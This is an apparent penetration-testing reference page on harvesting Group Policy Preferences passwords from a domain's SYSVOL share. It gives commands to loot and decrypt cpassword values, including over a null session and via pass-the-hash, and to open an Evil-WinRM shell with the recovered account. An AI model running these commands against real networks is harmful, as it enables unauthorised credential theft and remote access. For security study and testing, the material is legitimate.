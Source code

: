 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1552.006
---
```


# Group Policy Preferences

## Theory

Windows systems come with a built-in Administrator (with an RID of 500) that most organizations want to change the password of. This can be achieved in multiple ways but there is one that is to be avoided: setting the built-in Administrator's password through Group Policies.

* **Issue 1**: the password is set to be the same for every (set of) machine(s) the Group Policy applies to. If the attacker finds the admin's hash or password, he can gain administrative access to all (or set of) machines.
* **Issue 2**: by default, knowing the built-in Administrator's hash (RID 500) allows for powerful [Pass-the-Hash](https://www.thehacker.recipes/a-d/movement/ntlm/pth) attacks ([read more](https://www.thehacker.recipes/a-d/movement/ntlm/pth#limitations-tips-and-tricks)).
* **Issue 3**: all Group Policies are stored in the Domain Controllers' `SYSVOL` share. All domain users have read access to it. This means all domain users can read the encrypted password set in Group Policy Preferences, and since Microsoft published the encryption key around 2012, the password can be decrypted🤷‍♂️.



***

## Practical

{% hint style="info" %}
From UNIX-like systems, the [Get-GPPPassword.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/Get-GPPPassword.py) (Python) script in the impacket examples can be used to remotely parse `.xml` files and loot for passwords.
{% endhint %}

```
# with a NULL session
Get-GPPPassword.py -no-pass 'DOMAIN_CONTROLLER'

# with cleartext credentials
Get-GPPPassword.py 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'

# pass-the-hash
Get-GPPPassword.py -hashes 'LMhash':'NThash' 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'

```



## SYSVOL

```
smbclient -U 'Username' \\\\<IP>\\SYSVOL

# Download Policy.xml file
get Policy.xml
```

### Decrypt the Password (Manual)

{% hint style="info" %}
If you have downloaded the Policies.xml file from the remote system's SYSVOL share then you can decrypt the cpassword value using the below tools
{% endhint %}

```
pypykatz gppass j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw

gpp-decrypt j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw
```



## Get Remote Shell Access

### Evil-WinRM

```
sudo docker run --rm -ti --name evil-winrm  oscarakaelvis/evil-winrm -i <IP> -u <svc_dbbackup> -p '<password>'
```

{% hint style="info" %}
**Note:** The username above should match the value found in the `Policy.xml` file. In my case the username was found in the format

**newName="svc\_dbbackup"**
{% endhint %}





***

## REFERENCES

* [https://www.thehacker.recipes/a-d/movement/credentials/dumping/group-policies-preferences](https://www.thehacker.recipes/a-d/movement/credentials/dumping/group-policies-preferences)
* [https://www.hackingarticles.in/credential-dumping-group-policy-preferences-gpp/#:\~:text=Exploiting%20Group%20Policy%20Preferences%20via%20Metasploit%20%2DI,-As%20we%20know\&text=This%20module%20enumerates%20files%20from,using%20Microsoft's%20public%20AES%20key.](https://www.hackingarticles.in/credential-dumping-group-policy-preferences-gpp/)
* [https://podalirius.net/en/articles/exploiting-windows-group-policy-preferences/](https://podalirius.net/en/articles/exploiting-windows-group-policy-preferences/)
